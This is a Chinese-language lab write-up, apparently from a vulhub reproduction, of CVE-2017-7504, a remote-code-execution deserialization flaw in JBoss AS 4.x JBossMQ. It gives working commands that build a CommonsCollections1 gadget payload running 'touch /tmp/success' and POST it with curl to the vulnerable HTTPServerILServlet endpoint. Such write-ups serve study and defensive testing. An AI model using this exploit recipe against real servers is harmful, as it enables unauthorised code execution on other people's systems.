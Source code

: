 

# JBoss 4.x JBossMQ JMS 反序列化漏洞（CVE-2017-7504）

###### by ADummy

### 0x00利用路线

​			ysoserial生成payload--->上传给网站进行解析--->命令执行

### 0x01漏洞介绍

​			Jboss AS 4.x及之前版本中,JbossMQ实现过程的JMS over HTTP Invocation Layer的HTTPServerILServlet.java文件存在反序列化漏洞,远程攻击者可借助特制的序列化数据利用该漏洞执行任意代码。

​			影响版本

  	JBoss AS <=4.x

### 0x02漏洞复现

​	参考利用工具[JavaDeserH2HC](https://github.com/joaomatosf/JavaDeserH2HC)，我们选择一个Gadget：`ExampleCommonsCollections1WithHashMap`，编译并生成序列化数据：

```
javac -cp .:commons-collections-3.2.1.jar ExampleCommonsCollections1WithHashMap.java
java -cp .:commons-collections-3.2.1.jar ExampleCommonsCollections1WithHashMap "touch /tmp/success"
```

可见，我们执行的命令是`touch /tmp/success`。执行完成后，将生成一个文件`ExampleCommonsCollections1WithHashMap.ser`，将该文件作为body发送如下数据包：

```
curl http://your-ip:8080/jbossmq-httpil/HTTPServerILServlet --data-binary @ExampleCommonsCollections1WithHashMap.ser
```

jdk1.8执行失败。用linux可以直接执行

![JBoss_7504_反序列化漏洞_1](https://github.com/ADummmy/vulhub_Writeup/blob/main/JBoss_7504_反序列化漏洞_1.jpg)